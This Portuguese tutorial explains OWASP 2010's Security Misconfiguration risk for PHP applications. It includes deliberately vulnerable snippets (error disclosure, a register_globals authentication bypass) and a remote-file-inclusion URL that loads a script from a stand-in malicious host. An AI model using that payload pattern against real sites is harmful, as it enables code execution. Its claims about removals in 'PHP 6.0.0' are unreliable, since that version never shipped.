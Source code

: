 ```yaml
---
layout:      grid12-article
title:       A6 Security Misconfiguration
description: Artigo sobre a vulnerabilidade Configuração Incorreta de Segurança, sexto item da lista TOP 10 da WOASP
meta:        (OWASP top ten 2010)
---
```


Configurações incorretas de segurança podem ocorrer na aplicação web, no servidor web, no módulo do PHP, no framework, 
em bancos de dados e em todo componente necessário para que a aplicação funcione corretamente. Quando atualizações não 
são instaladas, quando os softwares não são devidamente configurados, quando usuários e senhas que ativam o software são
mantidas, temos então, a ocorrência da vulnerabilidade de Configuração Incorreta de Segurança. Ela deve ser evitada com
os esforços conjuntos de programadores e administradores uma vez que não diz respeitos à apenas o código fonte da aplicação.

A exploração é considerada fácil pois o atacante utiliza-se, por exemplo, de contas criadas por padrão na instalação de 
sistemas. O impacto é moderado pois, uma vez que esta vulnerabilidade é explorada, pode comprometer por completo todo
o sistema, a tabela abaixo sintetiza a classificação do risco.

![Mapeamento de risco Configuração Incorreta de Segurança](tabela-risco.png "Mapeamento de risco Configuração Incorreta de Segurança")


Exemplo de aplicação vulnerável
---

Suponha que a aplicação utilize framework's como [CideIgniter](http://www.codeigniter.com/ "link-externo") ou
[Cake](http://cakephp.org/ "link-externo"), por exemplo. Vulnerabilidades XSS são encontradas e uma atualização é 
lançada para corrigir o problema. Até que o framework não seja atualizado, atacantes poderão explorar as
vulnerabilidades da aplicação.

Outro exemplo seria quando os dados e os componentes padrões necessários para a instalação de uma aplicação, banco de
dados ou componente são instalados automaticamente e não são removidos. Um atacante poderá descobrir as páginas de 
administração no servidor e autenticar-se utilizando o usuário e senha padrão da instalação e tomar controle sobre a 
aplicação e/ou servidor.


Mais um exemplo seria quando a listagem dos diretórios não fora desativada. Um atacante, percebendo essa vulnerabilidade,
poderá listar os diretórios da aplicação e encontrar outras vulnerabilidades.

Ainda como exemplo, a configuração e/ou codificação de uma aplicação expõe, indevidamente, os erros ou outras informações
sobre o sistema ou o servidor. O atacante utilizará essa informação para encontrar e explorar vulnerabilidades potenciais.
O código 6.1 ilustra a exposição desnecessária de erros. Na linha 02 é feita a tentativa de conexão com o banco de dados
 e o resultado é armazena na variável `$link`. A linha 03 testa a variável `$link`, caso o valor seja `false` o script
executa a linha 04 que, por sua vez, interrompe a execução do script através da função `die()`. Esta função aceita um 
parâmetro do tipo string e exibe esse valor no navegador. No exemplo será enviado ao navegador o resultado da função
`mysql_error()`.

{% highlight php linenos %} 
<?php
$link = mysql_connect('localhost', 'mysql_user', 'mysql_password');
if (!$link) {
    die( mysql_error() );
}
?>
{% endhighlight %}

Importante notar que a não utilização da função `die()` não sanaria o problema por completo. Se o módulo de PHP estiver
configurado para exibir erros, uma mensagem como a mostrada no código abaixo a seguir seria exibida, entregando, dessa
forma, informações valiosas para o atacante como o servidor e o usuário.

    Warning mysql_connetc()[function.mysql-connect]: Access denied for user 'usuario'@'192.168.2.101'
    (using password: YES) in /www/html/appweb/admin.php on line 7


Prevenção
---

Para garantir a prevenção da aplicação web contra esta vulnerabilidades é preciso entender e compreender as configurações
do módulo PHP. O capítulo de configurações do projeto Guia de Desenvolvimento da OWASP traz recomendações específicas 
para cada configuração do módulo PHP (OWASP Development Guide: Chapter on Configuration, 2010).

A diretiva __register_globals__ vem com valor padrão `off` (desabilitado) desde a versão 4.2.5. Ela tornou-se obsoleta a 
partir da versão 5.3.0 e foi removida na versão 6.0.0. Essa diretiva, quando habilitada, cria variáveis de vários tipos,
inclusive variáveis oriundas de formulários HTML. Isso significa que é possível usar variáveis sem saber de onde elas 
vieram. Variáveis internas que são definidas no script se misturam com dados enviados pelos usuários. Segundo o manual 
do PHP, a diretiva em si não é insegura, o uso incorreto dela é que é. Conforme o código abaixo, na linha 02 o resultado 
da função `usuario_autenticado()` é testado. Se verdadeiro é atribuído `true` a variável `$autorizado`. Na linha 06 é 
testado o valor da variável `$autorizado`, se verdadeiro o script segue sua execução normalmente, acreditando-se que o 
usuário foi realmente autenticado.

{% highlight php linenos %} 
<?php
if (  usuario_autenticado()  ) {
    $autorizado = true;
}

if ($autorizado) {
    include "/dados/autamentes/sensiveis.php";
}
?>
{% endhighlight %}

Estando o valor da diretiva __register_globals__ igual a `on` (habilitada) a variável `$autorizado` seria facilmente 
manipulada. Alterando o valor para `off` o código funcionário corretamente (isento da vulnerabilidade). Outra forma de
concertar o código seria inicializar a variável antes do uso, neste caso o código funcionaria independentemente do 
estado de register_globals.

O __safe_mode__ é um conjunto de restrições de funções e pode realmente aumentar a segurança em um ambiente de servidor 
compartilhado. Ela foi removida na versão 6.0.0 por ser considerado, arquiteturalmente, incorreto resolver esse
problema (servidores compartilhados) no nível de módulo do PHP.

A diretiva __disable_functions__ permite desabilitar funções internas do PHP. Ela recebe uma lista de nomes de funções 
separadas por virgula. Ela não é afetada pela diretiva `safe_mode` e deve ser configurada diretamente no arquivo `php.ini`
não sendo possível efetuar a configuração no arquivo `httpd.conf`.


A diretiva __open_basedir__ limita os arquivos que podem ser abertos ao diretório especificado e seus subdiretórios, 
incluindo o arquivo em si. Essa diretiva não é afetada pelo estado do modo seguro (safe mode), esteja este habilitada
ou não.

A diretiva __allow_url_fopen__ ativa o dispositivo URL-aware fopen wrappers que permite o acesso a objetos URL como 
arquivos. Se esta diretiva estivar habilitada o atacante poderá executar arquivos externos como a demonstra o código 
abaixo.

    http://www.appvulneravel.com/index.php?pg=http://sitemalicioso.com/atacar.php

Com a diretiva __error_reporting__ é possível determinar quais os erros, mensagens e avisos o PHP registrará. A 
recomendação é `E_ALL`, dessa forma, todos os erros e mensagens de alerta (exceto os de nível `E_SRICT`) serão reportados.

A diretiva __log_errors__ refere-se ao nome do arquivo onde os erros do script serão logados.


A diretiva __display_errors__ determina se os erros serão ou não exibidos em tempo de execução. A recomendação é `off`
(desabilitado) para ambiente de produção e `on` (habilitado) para ambiente de desenvolvimento.

A diretiva __magic_quotes_gpc__ define o estado para as aspas mágicas para operações do tipo `GPC` (get, post e cookie).
Quando as aspas mágicas estiverem em `on`, todas `'` (aspas simples), `"` (aspas duplas), `\` (barras invertidas) e `NULL's`
são codificados (escapados) com uma barra invertida automaticamente. A recomendação da OWASP é que seu valor seja `on` 
(habilitado), porém esta função está obsoleta na versão 5.3.0 e foi removida da versão 6.0.

A diretiva __post_max_size__ determina o valor máximo de dados que poderá ser enviado para o servidor. Deve ser mantido 
o valor mínimo. Por padrão é `8mb`.

A diretiva __upload_max_filesize__ define o tamanho máximo de um arquivo enviado, medido em bytes, deve ser mantido o 
valor mínimo.

A diretiva __memory_limit__ configura o tamanho máximo de memória utilizada por um script. Isto evita, por exemplo, que
 um script malicioso consuma toda memória disponível em um servidor.


